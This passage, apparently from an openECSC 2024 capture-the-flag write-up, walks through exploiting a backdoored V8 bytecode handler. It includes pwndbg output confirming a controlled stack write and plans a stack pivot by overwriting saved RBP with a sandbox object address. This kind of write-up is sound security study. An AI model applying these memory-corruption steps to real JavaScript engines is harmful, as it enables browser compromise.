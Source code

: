We can see the argument we passed (`1`): it's a SMI so its value is left-shifted
by 1 and thus we get `2`. It's sitting at `rbp + 8 * 3` (`0x7ffc026c26f8`). In
fact, as we can see from the bytecode dump above, the opcode to load it is
`Ldar a0` or `0b 03` in raw bytes, where `03` is the opcode operand (register
number).

Furthermore, we can see that the accumulator (`rax`) contains what we want: a
`HeapNumber` with value `1337.1337`.

```none
pwndbg> i r rax
rax            0x87b00044785       9324374280069
pwndbg> x/gf $rax - 1 + 4
0x87b00044788:  1337.1337000000001
```

We will therefore pass the check and execute the backdoor code at
`Builtins_LdaConstantHandler+130`. Let's hit it:

```none
pwndbg> b *(Builtins_LdaConstantHandler+130)
Breakpoint 2 at 0x62b8aa821f82
pwndbg> c
Continuing.
   [...]
 ► 0x62b8aa821f82 <Builtins_LdaConstantHandler+130>    movsx  rdx, byte ptr [r12 + r9 + 1]
   0x62b8aa821f88 <Builtins_LdaConstantHandler+136>    mov    rsi, rbp
   0x62b8aa821f8b <Builtins_LdaConstantHandler+139>    mov    qword ptr [rsi + rdx*8], rbx
   [...]
```

The constant we loaded is in `rbx` and the index of the `LdaConstant` we are
performing is being loaded in `rdx`.

```none
pwndbg> ni
 ► 0x62b8aa821f88 <Builtins_LdaConstantHandler+136>    mov    rsi, rbp
   0x62b8aa821f8b <Builtins_LdaConstantHandler+139>    mov    qword ptr [rsi + rdx*8], rbx
   [...]
pwndbg> i r rbx
rbx            0x87b00191a65       9324375644773
pwndbg> i r rdx
rdx            0x1                 1
pwndbg> x/gf $rbx - 1 + 4
0x87b00191a68:  69.420000000000002
```

We now have a RBP-relativa stack write of a controlled `HeapNumber` (`69.420` in
this case). All that's left to do is get the correct index to corrupt either the
saved return address or the saved RBP on the stack.

Unfortunately, we cannot exactly write whatever we want on the stack. We are
limited by JS object: either we write a SMI (Small Integer) that is only going
to be 32 bit (with LSB = 0) or we write an object (`HeapNumber` or any other
normal untrusted `HeapObject` really). In the first case (SMI) we cannot control
the high 32 bits and therefore we cannot write a valid address anywhere. In the
second case we can write a valid address but not an arbitrary one: it will be
the address of an object in the sandbox. We have full R/W access to the sandbox
through `Sandbox.MemoryView`, so this second option is good enough if we want to
overwrite RBP and pivot the stack to a controller memory region.


[openecsc-2024]: https://open.ecsc2024.it/
[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg